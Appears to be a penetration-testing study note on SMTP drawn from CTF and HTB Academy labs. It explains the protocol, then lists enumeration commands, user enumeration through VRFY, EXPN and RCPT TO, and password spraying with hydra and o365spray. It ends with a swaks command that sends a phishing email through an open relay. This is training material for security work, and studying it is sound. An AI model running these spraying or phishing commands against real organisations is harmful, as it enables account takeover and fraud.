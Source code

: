 # SMTP

> *Source CTF and HTB Academy*

- Usually on port 25, 465, 587

The Simple Mail Transfer Protocol (SMTP) is a protocol for sending emails in an IP network. It can be used between an email client and an outgoing mail server or between two SMTP servers. SMTP is often combined with the IMAP or POP3 protocols, which can fetch emails and send emails. In principle, it is a client-server-based protocol, although SMTP can be used between a client and a server and between two SMTP servers. In this case, a server effectively acts as a client.  
An essential function of an SMTP server is preventing spam using authentication mechanisms that allow only authorized users to send e-mails. For this purpose, most modern SMTP servers support the protocol extension ESMTP with SMTP-Auth. After sending his e-mail, the SMTP client, also known as Mail User Agent (MUA), converts it into a header and a body and uploads both to the SMTP server. This has a so-called Mail Transfer Agent (MTA), the software basis for sending and receiving e-mails. The MTA checks the e-mail for size and spam and then stores it. To relieve the MTA, it is occasionally preceded by a Mail Submission Agent (MSA), which checks the validity, i.e., the origin of the e-mail. This MSA is also called Relay server. These are very important later on, as the so-called Open Relay Attack can be carried out on many SMTP servers due to incorrect configuration.  

![packet](../.res/2023-02-19-09-59-45.png)

- ESMTP extended smtp: will return delivery confirmation and uses TLS
- When people talk about SMTP in general, they usually mean ESMTP

## Default configuration

- `cat /etc/postfix/main.cf | grep -v "#" | sed -r "/^\s*$/d"`

|Command|Description|
|-------|-----------|
|`AUTH PLAIN`|AUTH is a service extension used to authenticate the client.|
|`HELO`|The client logs in with its computer name and thus starts the session.|
|`MAIL FROM`|The client names the email sender.|
|`RCPT TO`|The client names the email recipient.|
|`DATA`|The client initiates the transmission of the email.|
|`RSET`|The client aborts the initiated transmission but keeps the connection between client and server.|
|`VRFY`|The client checks if a mailbox is available for message transfer.|
|`EXPN`|The client also checks if a mailbox is available for messaging with this command.|
|`NOOP`|The client requests a response from the server to prevent  disconnection due to time-out.|
|`QUIT`|The client terminates the session.|

## Dangerous Settings

- Open relay configuration `mynetworks = 0.0.0.0/0` With this setting, this SMTP server can send fake emails and thus initialize communication between multiple parties. Another attack possibility would be to spoof the email and read it.

## Enumeration

- [MXToolbox](https://mxtoolbox.com/)
- `host -t MX hackthebox.eu`
- `dig mx plaintext.do | grep "MX" | grep -v ";"`
- `host -t A mail1.inlanefreight.htb`

### Nmap

- `sudo nmap 10.129.14.128 -sC -sV -p25`
- `sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v`
- `sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128`

### Telnet

```bash
telnet TARGET-IP 25
AUTH
```

- Example

```bash
telnet 10.129.14.128 25
HELO mail1.inlanefreight.htb
EHLO mail1
```

- [SMTP errors and reply codes](https://serversmtp.com/smtp-error/)

## Connect to the email account

- `openssl s_client -starttls smtp -connect mail.target.com:587`

## Password spray and bruteforce

- `hydra -L users.txt TARGET-IP smtp-enum`
- The SMTP server has different commands that can be used to enumerate valid usernames VRFY, EXPN, and RCPT TO. If we successfully enumerate valid usernames, we can attempt to password spray, brute-forcing, or guess a valid password. 

```bash
telnet 10.129.14.128 25
# VRFY
VRFY root
252 2.0.0 root
VRFY www-data
252 2.0.0 www-data
VRFY new-user
550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
# EXPN
EXPN john
250 2.1.0 john@inlanefreight.htb
EXPN support-team
250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
# RCPT TO
MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok
RCPT TO:julio
550 5.1.1 julio... User unknown
RCPT TO:kate
550 5.1.1 kate... User unknown
RCPT TO:john
250 2.1.5 john... Recipient ok

# user enumeration
USER julio
-ERR
USER john
+OK
```

- [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)
- `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`

## Cloud Enumeration

Cloud service providers use their own implementation for email services. Those services commonly have custom features that we can abuse for operation, such as username enumeration.  

- [O365spray](https://github.com/0xZDH/o365spray)

```bash
# Validate if target uses office 365
python3 o365spray.py --validate --domain msplaintext.xyz
# identify usernames
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

## Password Attacks

- `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`
- `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msp`

## Open Relay

> See above for more info on this misconfiguration

- `nmap -p25 -Pn --script smtp-open-relay 10.10.11.213`

Next, we can use any mail client to connect to the mail server and send our email.  

- `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213`

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp" %} Pentesting SMTP/s - Hacktricks {% endembed %}  